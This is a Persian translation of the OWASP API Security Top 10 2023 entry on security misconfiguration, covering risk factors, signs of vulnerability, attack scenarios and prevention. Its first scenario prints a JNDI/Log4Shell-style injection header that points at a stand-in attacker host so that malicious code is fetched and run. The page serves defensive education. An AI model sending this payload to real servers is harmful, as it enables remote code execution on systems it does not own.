 <div dir="rtl" align='right'>

# API8:2023 پیکربندی امنیتی نادرست
---


| ضعف امنیتی | عوامل تهدید / مسیر حمله | پیامد |
|---------|--------------------|------------|
| خاص API / قابلیت بهره‌برداری: آسان |  میزان شیوع: گسترده/ قابلیت تشخیص: آسان              | پیامد فنی: متوسط / خاص کسب و کار
| مهاجمین غالبا در تلاش برای یافتن حفره‌های وصله نشده، توابع رایج یا فایل‌ها و مسیرهای محافظت نشده به منظور دسترسی غیرمجاز به سیستم هستند. اطلاعات و تکنیک‌های مرتبط با این مسائل به طور عمومی در دسترس بوده و احتمال وقوع حمله در مورد آنها وجود دارد.              | پیکربندی امنیتی نادرست می‌تواند در هر سطحی از API، از سطح شبکه تا سطح اپلیکشن روی دهد. ابزارهای خودکاری وجود دارند که فرایند تشخیص و بهره برداری از پیکربندی‌های نادرست نظیر تشخیص سرویس‌های غیرضروری را انجام می‌دهند.     | پیکربندی امنیتی نادرست نه تنها می‌تواند اطلاعات حساس کاربر را افشا کند بلکه جزئیاتی از سیستم که ممکن است به از دست رفتن کامل سرور منجر شود را نیز در معرض خطر قرار می‌دهد.         |


### آیا API از نظر پیکربندی امنیتی نادرست[^1] ‌‌‌آسیب‌پذیر است؟
---
API از منظر پیکربندی امنیتی نادرست ‌‌‌آسیب‌پذیر است اگر:

- ایمن سازی امنیتی مناسب[^2] در هر قسمت از پشته اپلیکیشن رعایت نشده یا اپلیکیشن مجوزهای با پیکربندی نادرست روی سرویس‌‌‌‌های ابری داشته باشد.
- جدیدترین وصله‌‌‌‌های امنیتی نصب نشده و سیستم‌‌‌‌ها کاملا بروز نباشند.
- ویژگی غیرضروری (نظیر Verb اضافی HTTP) فعال باشند.
- تفاوت‌هایی در نحوه پردازش درخواست‌های ورودی توسط سرورها در زنجیره سرور HTTP وجود داشته باشد.
- امنیت لایه انتقال (TLS) غیرفعال باشد.
- دستورات و الزامات امنیتی (نظیر  <LINK> سرایندهای امنیتی) به سوی کلاینت ارسال نشوند.
- خط مشی اشتراک متقابل منابع (CORS[^3]) وجود نداشته یا به درستی ‌پیاده‌سازی نشده باشد.
- پیام‌‌‌‌های خطا ردپای پشته[^4] یا اطلاعات حساس دیگر را افشا نمایند.

### مثال‌‌‌‌هایی از سناریوهای حمله
---
#### سناریو #1

سروری از API یک نرم‌افزار ثبت دسترسی معتبر و متن‌باز با قابلیت توسعه و پشتیبانی از جستجوهای JNDI (واسطه نام‌گذاری و دایرکتوری جاوا) برای ثبت درخواست‌ها و دسترسی‌ها استفاده می‌کند. برای هر درخواست جدید، یک ورودی جدید با الگوی زیر ثبت می‌شود:

</div>

```http
<method> <api_version>/<path> - <status_code>
```
<div dir="rtl" align='right'>

یک عامل مخرب، درخواست API مشخصی را ارسال می‌کند که در فایل گزارش دسترسی نوشته می‌شود:
</div>


```http
GET /health
X-Api-Version: ${jndi:ldap://attacker.com/Malicious.class}
```
<div dir="rtl" align='right'>

اگر مهاجم از یک سرور کنترل از راه دور برای اجرای یک کد مخرب با نام Malicious.class استفاده کرده و این کد را در سرآیند درخواست X-Api-Version قرار دهد، نرم‌افزار گزارش‌دهی، به دلیل تنظیمات پیش‌فرض ناامن خود، این کد مخرب را از سرور مهاجم دانلود کرده و اجرا می‌کند.
</div>
<div dir="rtl" align='right'>

#### سناریو #2

یک وب‌سایت شبکه‌ی اجتماعی امکان ارسال "پیام مستقیم" را فراهم کرده که به کاربران امکان برقراری گفت‌وگوی خصوصی را می‌دهد. برای دریافت پیام‌های جدید در یک گفت‌وگو خاص، وب‌سایت درخواست API زیر را ارسال می‌کند (نیازی به تعامل کاربری نیست):
</div>

```http
GET /dm/user_updates.json?conversation_id=1234567&cursor=GRlFp7LCUAAAA
```
<div dir="rtl" align='right'>

پاسخ API شامل هدر پاسخ HTTP Cache-Control نمی‌شود، به همین علت گفت‌وگوهای خصوصی در مرورگر وب ذخیره شده و به مهاجمان اجازه می‌دهد که آنها را از فایل‌های حافظه نهان مرورگر در فایل‌سیستم بازیابی کنند.

### چگونه از ‌‌‌آسیب‌پذیری پیکربندی امنیتی نادرست پیشگیری کنیم؟
---
چرخه حیات API بایستی شامل موارد زیر باشد:

- فرایندی تکرار شونده برای ایمن سازی API که منجر به ‌پیاده‌سازی سریع و آسان یک محیط ایمن شود.
- فرایندی برای بازبینی و بروزرسانی پیکربندی‌‌‌‌ها در سراسر پشته API؛ این بازبینی بایستی موارد از جمله بازبینی هماهنگی بین فایل‌‌‌‌ها، مولفه‌‌‌‌های API و سرویس‌‌‌‌های ابری (نظیر مجوزهای باکت‌‌‌‌های S3) را دربرگیرد.
- فرایندی خودکار جهت ارزیابی پیوسته و مداوم اثربخشی پیکربندی و تنظیمات اعمال شده در سراسر محیط API و اپلیکیشن.

بعلاوه:

- حصول اطمینان از این که تمام ارتباطات API از سمت مشتری به سرور و هر کارکردهای دیگر روی یک کانال ارتباطی رمزنگاری شده (TLS) انجام می‌شود؛ بدون توجه به اینکه آیا این API داخلی است یا به صورت عمومی منتشر شده است.
- حصول اطمینان از اینکه API فقط به افعال HTTP مدنظر توسعه دهنده پاسخ می دهد و غیرفعال کردن سایر افعال (نظیر HEAD).
- APIهایی که انتظار می‌رود دسترسی به آنها از طریق کلاینت‌‌‌‌های مبتنی بر مرورگر (مثلا فرانت WebApp) باشد:
  - بایستی خط مشی CORS مناسب را بکار گیرند.
  - شامل سرآیندهای امنیتی قابل اجرا باشند.
  - محتوا و فرمت‌ داده‌های ورودی را طوری محدود کنید که با نیازها و عملکرد کسب‌وکار سازگار باشند.
- برای جلوگیری از مشکلات عدم هماهنگی، مطمئن شوید که تمام سرورها در زنجیره سرورهای HTTP (مانند توازن بار[^5]، پروکسی‌های معکوس و پیشرو[^6] و back-end) درخواست‌های ورودی را به شیوه‌ای یکنواخت پردازش می‌کنند.
- در موارد قابل اجرا، تمام طرح‌های بارگیری پاسخ API تعریف و اعمال شود، از جمله پاسخ‌های خطا، تا از ارسال جزئیات اشتباه و اطلاعات مهم به مهاجمان جلوگیری گردد.
- برای همه پاسخ‌هایی که از API دریافت می‌شود، حتی پاسخ‌های شامل پیغام خطا، یک نقشه ساختاری دقیق تعریف شود. این اقدام باعث می‌شود که جزئیات خطاها و سایر اطلاعات حساس به مهاجمان ارسال نشود.

## مراجع
</div>
---

- [OWASP](https://owasp.org/)
- [OWASP Secure Headers Project](https://owasp.org/www-project-secure-headers/)
- [Configuration and Deployment Management Testing - Web Security Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)
- [Testing for Error Handling - Web Security Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)
- [Testing for Cross Site Request Forgery - Web Security Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)
<div dir="rtl" align='right'>

#### خارجی
</div>

- [CWE-2: Environmental Security Flaws](https://cwe.mitre.org/data/definitions/2.html)
- [CWE-16: Configuration](https://cwe.mitre.org/data/definitions/16.html)
- [CWE-209: Generation of Error Message Containing Sensitive Information](https://cwe.mitre.org/data/definitions/209.html)
- [CWE-319: Cleartext Transmission of Sensitive Information](https://cwe.mitre.org/data/definitions/319.html)
- [CWE-388: Error Handling](https://cwe.mitre.org/data/definitions/388.html)
- [CWE-444: Inconsistent Interpretation of HTTP Requests ('HTTP Request/Response Smuggling')](https://cwe.mitre.org/data/definitions/444.html)
- [CWE-942: Permissive Cross-domain Policy with Untrusted Domains](https://cwe.mitre.org/data/definitions/942.html)
- [Guide to General Server Security NIST](https://csrc.nist.gov/publications/detail/sp/800-123/final)
- [Let's Encrypt: a free automated and open Certificate Authority](https://letsencrypt.org/)


[^1]: Security Misconfiguration
[^2]: Hardening
[^3]: Cross-Origin Resource Sharing
[^4]: Stack Trace
[^5]: load balancers
[^6]: reverse and forward proxies

  

